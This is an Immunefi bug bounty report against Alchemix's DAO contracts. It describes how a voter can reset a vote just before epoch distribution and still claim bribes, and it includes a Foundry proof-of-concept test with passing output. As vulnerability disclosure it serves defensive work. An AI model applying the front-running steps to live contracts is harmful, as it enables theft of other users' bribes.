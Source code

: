 
# Malicious users can front-run the distribution transaction to steal bribes

Submitted on Sun May 12 2024 08:17:54 GMT-0400 (Atlantic Standard Time) by @Ch301 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31085

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed royalties

## Description
## Brief/Intro

The pool weight is zero but users are still able to claim bribes.

## Vulnerability Details

First, let's understand two main points:

1- When a user invokes `Voter.sol#vote()`[#1] will update `lastVoted[_tokenId]` to `block.timestamp`
```solidity
File: Voter.sol

508:         lastVoted[_tokenId] = block.timestamp;

```
Users to be able to reset the voting status, need to call `Voter.sol#reset()`. However, the modifier `onlyNewEpoch()` will force the user to wait until a new epoch starts since the last vote. So user can call `reset()` at the first second of the new epoch.
```solidity
File: Voter.sol

110:         require((block.timestamp / DURATION) * DURATION > lastVoted[_tokenId], "TOKEN_ALREADY_VOTED_THIS_EPOCH");

```

 2- To distribute rewards and bribes to all gauges you need to call `Voter.sol#distribute()` only once per epoch. (Normally this is done by off-chain bots)
```solidity
File: Voter.sol

408:     function _distribute(address _gauge) internal {
409:        
410:         // Distribute once after epoch has ended
411:         require(
412:             block.timestamp >= IMinter(minter).activePeriod() + IMinter(minter).DURATION(),
413:             "can only distribute after period end"
414:         );

```
Now, the first point updates all the related values, but the `Bribe.sol#withdraw()` will create a new checkpoint `X` (see: `_writeCheckpoint()`[#2]) this checkpoint get considered for the new epoch not the last epoch.

Next time the user calls `voter.sol#claimBribes()`. the `balanceOf` of the epoch `X - 1` will allow the user to claim all/part from the bribes even if he didn't help the gauge to generate more emrssions

```solidity
File: Bribe.sol
232:     function earned(address token, uint256 tokenId) public view returns (uint256) {
        /***/
262:                 if (_nextEpochStart > prevRewards.timestamp) {
263:                     reward += prevRewards.balanceOf;
264:                 }

```

## Impact Details

1- If the malicious user is the only one who votes to a gauge, He will claim all the bribes if they exist and the pool will receive zero emissions.

2- If there are multiple users vote for that particular pool, the malicious user will steal a part from other user's bribes.

## References
#1: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L449

#2: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol?utm_source=immunefi#L351-L360
        
## Proof of concept
## Proof of Concept
Foundry PoC:
1. Please copy the following PoC in `Voting.t.sol`
```solidity
    function test_bribes_poc_01() public {
        {//set up
            uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

            address bribeAddress = voter.bribes(address(sushiGauge));

            address[] memory pools = new address[](1);
            pools[0] = sushiPoolAddress;
            uint256[] memory weights = new uint256[](1);
            weights[0] = 5000;

            address[] memory bribes = new address[](1);
            bribes[0] = address(bribeAddress);
            address[][] memory tokens = new address[][](1);
            tokens[0] = new address[](1);
            tokens[0][0] = bal;

            // in epoch i, user votes with balance x
            hevm.prank(admin);
            voter.vote(tokenId1, pools, weights, 0);

            // Start epoch
            hevm.warp(newEpoch());
            voter.distribute();
        }

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        /*@audit you can call `distribute()`only starting from `IMinter(minter).activePeriod() + IMinter(minter).DURATION()` */
        // Start second epoch. this is the first second of the second epoch.
        hevm.warp(newEpoch() - 1);
        //! user front-run the `distribute()` transaction 
        hevm.prank(admin);
        voter.reset(tokenId1);

        //! weight is zero
        uint weight = voter.weights(sushiPoolAddress);
        assertEq(weight, 0);

        voter.distribute();

        uint256 balanceStart = IERC20(bal).balanceOf(admin);

        // Claim bribes from epoch i
        hevm.warp(block.timestamp + 100);
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        uint256 balanceEnd = IERC20(bal).balanceOf(admin);
        
        //! weight is zero but the user still able to claim the bribes
        assertGt(balanceEnd, balanceStart);
    }
```
2. Test result:
```diff
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] test_bribes_poc_01() (gas: 3792050)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 52.46s (37.28s CPU time)

Ran 1 test suite in 54.39s (52.46s CPU time): 1 tests passed, 0 failed, 0 skipped 
(1 total tests)
```